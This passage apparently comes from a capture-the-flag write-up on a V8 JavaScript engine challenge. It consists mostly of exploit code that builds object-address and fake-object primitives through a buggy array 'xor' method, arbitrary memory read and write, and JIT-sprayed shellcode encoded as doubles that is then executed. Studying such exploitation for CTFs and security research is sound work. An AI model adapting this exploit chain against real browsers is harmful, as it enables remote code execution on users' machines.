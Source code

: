 ```js
    return (arr[0] << 1) | 1;
};

function ptr2obj(ptr) {
    var arr = [13.37];
    arr.xor({
        valueOf: function() {
            arr[0] = {};
            arr[0] = (ptr >> 0x1);
            return 1;
        }
    });
    return arr[0];
}

function read(addr) {
    const readArr = [1.1, 2.2];
    readArr[0] = i2f(0x00000725001cb7c5n);
    readArr[1] = i2f(0x0000000200000000n + BigInt(addr) - 0x8n);
    return f2i(ptr2obj(obj2ptr(readArr) - 0x10)[0]);
}

function write(addr, data) {
    const writeArr = [1.1, 2.2];
    writeArr[0] = i2f(0x00000725001cb7c5n);
    writeArr[1] = i2f(0x0000000200000000n + BigInt(addr) - 0x8n);
    const fakeArr = ptr2obj(obj2ptr(writeArr) - 0x10);
    fakeArr[0] = i2f(data);
}

function shellcode() {
    return [1.9711828979523134e-246, 1.9562205631094693e-246, 1.9557819155246427e-246, 1.9711824228871598e-246, 1.971182639857203e-246, 1.9711829003383248e-246, 1.9895153920223886e-246, 1.971182898881177e-246]
};
for (let i = 0; i < 10000; i++) shellcode();

const funcAddr = obj2ptr(shellcode);
const codeAddr = read(funcAddr + 0x8) >> 32n;
const instructionStart = codeAddr + 0x14n;
write(instructionStart, read(instructionStart) + 0x7fn);
shellcode();
```

Note2: Original writeup from the author used the same technique of storing doubles on rwx page, but he used wasm code to do so.

Overall this wasn't extremely hard challenge, but it was really fun to tackle with. 

